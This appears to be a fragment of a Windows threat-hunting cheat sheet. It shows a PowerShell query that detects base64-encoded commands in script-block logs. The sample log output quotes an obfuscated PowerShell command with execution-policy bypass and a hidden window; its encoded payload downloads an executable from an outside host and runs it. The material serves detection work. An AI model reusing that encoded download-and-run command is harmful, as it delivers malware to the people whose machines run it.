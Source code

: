 #### <a name='msinstaller'></a>msinstaller

![msinstaller](/assets/images/sys-win-logs-msi.png)

```powershell
```

#### <a name='powershell'></a>powershell
```powershell
# 01 # base64 encoded commands 
Get-WinEvent -FilterHashtable @{ LogName='Microsoft-Windows-PowerShell/Operational'; Id='4104';} | Where-object -Property Message -Match "[A-Za-z0-9+/=]{200}" | Format-List -Property Message

Message : Creating Scriptblock text (1 of 1):
          poWERShElL.Exe -ExECutioNPolicy bYpAsS -NOPrOFiLe -WindOwsTyLe HiddEN -enCodEdCoMMANd IAAoAG4ARQB3AC0AbwBiAGoAZQB
          jAFQAIABTAHkAUwBUAGUAbQAuAE4AZQB0AC4AVwBFAGIAQwBsAGkARQBOAHQAKQAuAEQAbwB3AE4ATABvAGEARABGAEkAbABFACgAIAAdIGgAdAB0
          AHAAcwA6AC8ALwBhAHIAaQBoAGEAbgB0AHQAcgBhAGQAZQByAHMAbgBnAHAALgBjAG8AbQAvAGkAbQBhAGcAZQBzAC8AUwBjAGEAbgBfADIALgBlA
          HgAZQAdICAALAAgAB0gJABlAG4AdgA6AFQARQBtAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAB0gIAApACAAOwAgAGkAbgBWAG8AawBFAC0ARQB4AF
          AAUgBlAHMAUwBJAG8ATgAgAB0gJABFAE4AdgA6AHQARQBNAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAB0g
```